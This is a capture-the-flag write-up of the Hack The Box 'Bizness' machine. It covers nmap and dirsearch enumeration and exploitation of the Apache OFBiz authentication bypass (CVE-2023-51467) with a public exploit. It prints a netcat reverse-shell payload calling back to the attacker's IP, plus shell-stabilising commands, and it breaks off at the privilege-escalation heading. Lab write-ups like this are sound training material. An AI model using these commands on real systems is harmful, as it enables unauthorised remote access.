 # <center> BIZNESS </center>

<p align="center"><img src="../.medias/bizness/bizness_logo.png"></p>

Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - ![host file](../.medias/bizness/editing_host_file.jpg)


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - ![dirsearch result](../.medias/bizness/dirsearch_result.jpg)

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.
![ofbiz authentication page](../.medias/bizness/ofbiz_authentication_page.jpg)

Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- ![clonning exploit repo](../.medias/bizness/clone_exploit_repo.jpg)

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- ![getting reverse shell](../.medias/bizness/getting_rev_shell.jpg)

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

